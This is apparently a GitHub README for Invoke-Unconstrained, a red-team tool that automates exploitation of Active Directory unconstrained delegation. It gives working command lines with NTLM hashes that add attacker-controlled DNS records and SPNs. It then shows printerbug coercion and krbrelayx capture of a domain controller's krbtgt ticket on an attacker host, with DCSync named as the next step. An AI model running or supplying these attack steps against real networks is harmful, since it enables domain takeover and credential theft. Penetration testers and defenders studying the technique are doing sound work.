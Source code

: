 # Invoke-Unconstrained  
The Invoke-Unconstrained tool automates the exploitation of a compromised machine with unconstrained delegation.

The idea of this tool is to fully automate the exploitation of unconstrained delegation without relying on domain joined machines in order to avoid EDRs or XDRs.  
Several ways can be used to accomplish this task, but they have many steps and are complicated to understand, so the purpose of that tool is to automate the whole steps to compromise a machine using unconstrained delegation issue.  
Additionally, a snapshot of the old state is created to revert changes after the exploitation process.  
This Invoke-Unconstrained tool is based on the `impacket` library which allows attacker to launch that tool from linux-based OS, and also support the same default authentication methods as configured on the impacket library.

### How to Use  
The tool supports multiple authentication methods, including plain-text passwords, NTLM hashes, and Kerberos tickets.


#### General Arguments:  
`-u` - Specify username (The domain should be provided with a backslash, e.g., `LAB\DEG$`).  
`-t` - Specify Vunlerable target.  
`-ah` - Specify a non-exists DNS record that will be point to the attacker-controlled IP Address.  
`-aip` - Specify the controlled attacker IP address that will be added under the attacker's DNS record. 
`-p` - Specify plaintext/NTLM password matched to the username.  
`-k` - Force Kerberos authentication.

Sucessfull output will look as follows:  

The following proof of concept illustrates performing unconstrained delegation attack using NTLM hash using the DEG machine account on the lab domain:  
During the automation process, the tool creates a new DNS record controlled by the attacker (`ATT28.labs.local` -> `10.0.0.12`) to the domain controller (`10.0.0.5`).  
This automation involves LDAP authentication, afterwards, the tool adds new SPNs according to the newly-created DNS record (the `ATT28` attacker host which was added to the `msds-additionaldnshostname` attribute of the `DEG$` machine account).

  
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -t DEG$ -ah ATT28.labs.local -aip 10.0.0.12  10.0.0.5
```
![image](https://github.com/ScorpionesLabs/Invoke-Unconstrained/assets/50461376/a16d91e3-ac86-483e-a8fc-f94c0bfc84f4)

#### Reverting Changes:
Among red teams, we believe that the cleanup process is required after an attack. This feature will roll back all changes to the way they were before the attack.  

The following example shows how to rollback changes that performed on the victim user to the original state.
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -r .\DEG-2023-10-17--18-20-42.961041 10.0.0.5
```

As can be seen above, on each exploitation, a state file is created which shows that changes made that needs to reverted, including target, SPNs, and DNS records added.  

#### Full Exploitation: 

Step 1:  
```bash
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -t DEG$ -ah ATT30.labs.local -aip 192.168.117.134 192.168.117.131
```
Step 2 \(This step get executed automaticly if you are on Linux, you might need to use aesKey if kerberos encrypts ticket with that\): 
```bash
python3 krbrelayx.py -hashes aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc
[*] Servers started, waiting for connections
```

Step 3:
```bash
python3 printerbug.py LABS/DEG\$@192.168.117.131 -hashes aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc ATT30.labs.local
[*] Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at 192.168.117.131
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

Step 4: 
```bash
[*] SMBD: Received connection from 192.168.117.131
[*] Got ticket for DC01$@LABS.LOCAL [krbtgt@LABS.LOCAL]
[*] Saving ticket in DC01$@LABS.LOCAL_krbtgt@LABS.LOCAL.ccache
```


After the fourth step, we have obtained a ticket of the domain controller and now we can perform a DCSync attack.  


### Credits

1. Omri Baso From [Scorpiones Labs](https://www.scorpiones.io/).  
2. Some of the code snippets were taken from the [krbrelayx](https://github.com/dirkjanm/krbrelayx/tree/master) Project.  

